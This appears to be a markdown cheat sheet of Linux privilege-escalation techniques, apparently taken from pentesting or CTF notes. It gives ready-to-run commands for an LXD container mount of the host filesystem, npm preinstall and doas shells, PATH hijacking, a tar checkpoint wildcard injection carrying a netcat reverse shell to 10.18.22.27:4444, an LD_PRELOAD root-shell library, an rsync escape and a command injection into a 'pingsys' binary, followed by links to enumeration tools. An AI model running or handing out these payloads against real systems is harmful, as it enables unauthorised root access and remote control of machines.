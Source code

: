 #### LXD container exploitation

```bash
wget archive
lxc image import ./lxd.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

```sh
Would you like to use LXD clustering? (yes/no) [default=no]: no
Do you want to configure a new storage pool? (yes/no) [default=yes]: yes
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: dir
Would you like to connect to a MAAS server? (yes/no) [default=no]: no
Would you like to create a new network bridge? (yes/no) [default=yes]: yes
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: none
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
ubuntu@ajkavanagh-bionic-test:~$ lxc storage list
```
---
#### with doas

```bash
doas -u root openssl enc -in file
doas -u root /bin/bash
```
---
#### with npm -u

```bash
mkdir ~/tmp
echo '{"scripts": {"preinstall": "/bin/sh"}}' > ~/tmp/package.json
sudo -u serv-manage /usr/bin/npm -C ~/tmp/ --unsafe-perm i
```
---
#### PATH

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
./app_that_calls_curl
```

---
#### tar

```bash
cat > /home/andre/backup/rev << EOF
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
EOF
echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"
chmod +x rev
```
---
#### env_keep += LD_PRELOAD

```bash
cd /tmp
cat > shell.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
EOF
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```
---
#### doas
```
doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```
---
#### links
* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
* [GTFOBins (unix)](https://gtfobins.github.io/)
* [g0tmi1k priv esc linux](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [linux backdoors](./linux_backdoors.md)
---
#### pingsys
```
/usr/bin/pingsys '127.0.0.1; /bin/sh'
```